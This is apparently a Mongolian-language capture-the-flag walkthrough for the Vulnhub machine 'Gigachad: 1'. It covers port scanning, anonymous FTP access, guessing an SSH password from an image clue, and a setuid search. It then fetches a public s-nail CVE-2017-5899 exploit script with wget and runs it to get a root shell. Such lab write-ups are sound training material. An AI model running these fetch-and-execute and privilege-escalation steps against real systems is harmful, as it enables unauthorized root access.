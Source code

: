# Machine-7 "Gigachad : 1 Vulnhub"
**1.** Target-ын мэдэээл авах **netdiscover** командыг хийснээр бидний зорилтот IP гэж юу болохыг харах боломжтой

![image](https://github.com/Bultuush/Machine-7/assets/129934501/57e19211-1c99-4160-9a0a-115fd28c3d9f)

**2.** Дараа нь бид nmap ашиглан нээлттэй портуудыг олох хэрэгтэй.

![image](https://github.com/Bultuush/Machine-7/assets/129934501/31ea9c37-d3ac-4e8b-99d7-8b220448f718)

Хэрэглэгчийн flag ашиглаж байна:
Бид **FTP (21)**, **SSH (22)** болон **HTTP (80)** гэсэн гурван нээлттэй портыг олж илрүүлсэн.

Бид 80-р портоор эхэлж болно, гэхдээ вэбсайтад юу ч байхгүй

![image](https://github.com/Bultuush/Machine-7/assets/129934501/7dbc2715-c2b7-4742-b1c6-46fb4f7c0ff4)

FTP-ийн хувьд нэргүй нэвтрэх боломжтой гэдгийг бид харж байна. Тиймээс бид FTP руу нэвтрэхийг оролдох болно

ftp 192.168.1.5

Хэрэглэгчийн нэр үл мэдэгдэх бөгөөд нууц үг хоосон байх болно (нууц үг асуух үед enter дарна уу)

![image](https://github.com/Bultuush/Machine-7/assets/129934501/85320410-8128-4fed-b6a7-022e12a70207)

Бид файлуудыг үзэхийн тулд **dir** эсвэл **ls** командыг ашиглана. Таны харж байгаагаар бид chadinfo нэртэй файлыг олсон

Бид get командыг ашиглан файлыг татаж авах болно

![image](https://github.com/Bultuush/Machine-7/assets/129934501/44b5794a-1788-40bd-abc1-3ab583d83221)

Одоо cat ашиглан файлыг нээцгээе

![image](https://github.com/Bultuush/Machine-7/assets/129934501/dc1ef91f-0256-4496-9fa6-d9735abdcd2a)

Бид хэрэглэгчийн нэрийг chad гэж авсан бөгөөд нууц үгийн хувьд тэд бидэнд /drippinchad.png лавлахыг өгсөн. Үүнийг шалгаж үзье

Хөтөч дээр http://192.168.1.17/drippinchad.png-г нээсний дараа бид доорх хуудсыг авна.

![image](https://github.com/Bultuush/Machine-7/assets/129934501/d2f675b3-306b-49e1-a637-e8272fe3a0bb)

Тайлбарын дагуу нууц үг нь зураг дээрх газартай холбоотой байх ёстой. Хэрэв та энэ газрыг мэддэг бол доорх алхмуудыг алгасана уу. Хэрэв та мэдэхгүй бол бид зургийг татаж аваад Google дээр reverse image хайх болно

Google Images руу очоод Камерын дүрс дээр дарна уу

Одоо файлуудыг үзэж, зургаа оруулна уу

Та энэ газрыг харуулсан зарим холбоосыг харах болно

![image](https://github.com/Bultuush/Machine-7/assets/129934501/ea7c0372-505f-49bf-9199-9ebd148eb56c)

Би хоёр дахь холбоосыг дагаж, нэр нь Охины цамхаг болохыг олж мэдэв

Бид порт 22 (SSH) нээлттэй байгааг олж мэдсэн тул бид chad (бид chadinfo файлаас авсан) хэрэглэгчээр нэвтэрч, охины цамхагтай холбоотой нууц үгийг тааварлах болно.

Хэсэг хугацааны дараа би нууц үг нь maidenstower болохыг олж мэдэв

Тиймээс бид SSH-д хэрэглэгчийн **user:chad**, **password:maidenstower**-ээр нэвтрэх болно

ssh chad@192.168.1.17

![image](https://github.com/Bultuush/Machine-7/assets/129934501/b855a6b4-f480-45c2-a076-b03ec585dac5)

ls-ийг хийсний дараа бид хэрэглэгчийн flag-ынхаа user.txt-г авсан

![image](https://github.com/Bultuush/Machine-7/assets/129934501/13c4a110-d258-44f7-92e9-830d5b0e27ba)

Эрхийг нэмэгдүүлэхийн тулд бид chad хэрэглэгчийн sudo зөвшөөрлийг хайж олох боломжтой.

**find / -perm -4000 -төрөл f -exec ls -la {} 2>/dev/null \;**

Энэ команд нь setuid бит тохируулсан (`-perm -4000`) болон файлын төрлийн (`-type f`) файлуудыг бүхэлд нь файлын системээс (`/`) хайдаг. Дараа нь эдгээр файл бүр дээр `ls -la`-г ажиллуулж, тэдгээрийн дэлгэрэнгүйг жагсаана. `2>/dev/null` хэсэг нь зөвшөөрөгдөөгүй алдааг дарахын тулд алдааны мэдээг `/dev/null` руу дахин чиглүүлдэг.

![image](https://github.com/Bultuush/Machine-7/assets/129934501/843c797e-83ac-429b-8f51-07a18a9509d4)

Үйлчилгээг судалсны дараа би шуудангаар ашигладаг **s-nail** үйлчилгээг олсон. Энэ нь мөн **CVE-2017–5899**-д ашиглах боломжтой давуу эрх нэмэгдүүлэх боломжуудтай.

![image](https://github.com/Bultuush/Machine-7/assets/129934501/9c8ba76d-e85c-459c-9134-009dd66abf5e)

Би доорх **Github exploit**-ийг ачаалал болгон ашигласан

![image](https://github.com/Bultuush/Machine-7/assets/129934501/6159c346-938b-4900-98bd-a5d8dcdb2b93)

Home лавлах дотроос **wget** ашиглан **exploit.sh** татаж авна уу

**wget https://raw.githubusercontent.com/bcoles/local-exploits/master/CVE-2017-5899/exploit.sh**

![image](https://github.com/Bultuush/Machine-7/assets/129934501/2d2349bf-6d7e-4ef8-93b1-f15d8be95123)

Одоо бид **exploit.sh**-д chmod ашиглан гүйцэтгэх зөвшөөрлийг өгөх болно

**chmod 777 exploit.sh**

Тэгээд бид **exploit**-ийг ажиллуулна

**./exploit.sh**

![image](https://github.com/Bultuush/Machine-7/assets/129934501/834ffd21-b263-45c9-8469-3404ba269966)

Бид **success** мессежийг хүлээн авах бөгөөд бид **root shell** авах болно

![image](https://github.com/Bultuush/Machine-7/assets/129934501/f405ac23-a57e-4961-8a33-1c944553a210)

/root лавлах руу оч, бид root.txt үндсэн туг болох сүүлчийн тугийг авлаа!

![image](https://github.com/Bultuush/Machine-7/assets/129934501/fd6b703d-159c-4bb6-9507-1bd7250c271e)
